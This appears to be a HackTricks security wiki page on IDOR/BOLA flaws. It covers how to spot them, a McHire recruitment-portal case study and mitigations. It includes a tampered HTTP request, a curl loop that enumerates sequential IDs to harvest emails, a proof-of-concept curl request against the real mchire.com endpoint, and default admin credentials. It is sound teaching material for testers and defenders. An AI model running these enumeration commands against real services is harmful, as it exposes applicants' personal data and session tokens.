 # IDOR (Insecure Direct Object Reference)

{#include ../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (BOLA) appears when a web or API endpoint discloses or accepts a user–controllable identifier that is used **directly** to access an internal object **without verifying that the caller is authorized** to access/modify that object.  
Successful exploitation normally allows horizontal or vertical privilege-escalation such as reading or modifying other users’ data and, in the worst case, full account takeover or mass-data exfiltration.

---
## 1. Identifying Potential IDORs

1. Look for **parameters that reference an object**:
   * Path: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`  
   * Query: `?id=42`, `?invoice=2024-00001`  
   * Body / JSON: `{"user_id": 321, "order_id": 987}`  
   * Headers / Cookies: `X-Client-ID: 4711`
2. Prefer endpoints that **read or update** data (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Note when identifiers are **sequential or predictable** – if your ID is `64185742`, then `64185741` probably exists.
4. Explore hidden or alternate flows (e.g. *"Paradox team members"* link in login pages) that might expose extra APIs.
5. Use an **authenticated low-privilege session** and change only the ID **keeping the same token/cookie**. The absence of an authorization error is usually a sign of IDOR.

### Quick manual tampering (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```

### Automated enumeration (Burp Intruder / curl loop)
```bash
for id in $(seq 64185742 64185700); do
  curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
       -H 'Content-Type: application/json' \
       -H "Cookie: auth=$TOKEN" \
       -d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```

---
## 2. Real-World Case Study – McHire Chatbot Platform (2025)

During an assessment of the Paradox.ai-powered **McHire** recruitment portal the following IDOR was discovered:

* Endpoint: `PUT /api/lead/cem-xhr`
* Authorization: user session cookie for **any** restaurant test account
* Body parameter: `{"lead_id": N}` – 8-digit, **sequential** numeric identifier

By decreasing `lead_id` the tester retrieved arbitrary applicants’ **full PII** (name, e-mail, phone, address, shift preferences) plus a consumer **JWT** that allowed session hijacking. Enumeration of the range `1 – 64,185,742` exposed roughly **64 million** records.

Proof-of-Concept request:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
     -H 'Content-Type: application/json' \
     -d '{"lead_id":64185741}'
```

Combined with **default admin credentials** (`123456:123456`) that granted access to the test account, the vulnerability resulted in a critical, company-wide data breach.

---
## 3. Impact of IDOR / BOLA
* Horizontal escalation – read/update/delete **other users’** data.
* Vertical escalation – low privileged user gains admin-only functionality.
* Mass-data breach if identifiers are sequential (e.g., applicant IDs, invoices).
* Account takeover by stealing tokens or resetting passwords of other users.

---
## 4. Mitigations & Best Practices
1. **Enforce object-level authorization** on every request (`user_id == session.user`).  
2. Prefer **indirect, unguessable identifiers** (UUIDv4, ULID) instead of auto-increment IDs.
3. Perform authorization **server-side**, never rely on hidden form fields or UI controls.
4. Implement **RBAC / ABAC** checks in a central middleware.
5. Add **rate-limiting & logging** to detect enumeration of IDs.
6. Security test every new endpoint (unit, integration, and DAST).

---
## 5. Tooling
* **BurpSuite extensions**: Authorize, Auto Repeater, Turbo Intruder.  
* **OWASP ZAP**: Auth Matrix, Forced Browse.  
* **Github projects**: `bwapp-idor-scanner`, `Blindy` (bulk IDOR hunting).

{{#include ../banners/hacktricks-training.md}}

## References
* [McHire Chatbot Platform: Default Credentials and IDOR Expose 64M Applicants’ PII](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [How to Find More IDORs – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
{#include ../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}
{#include ../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}
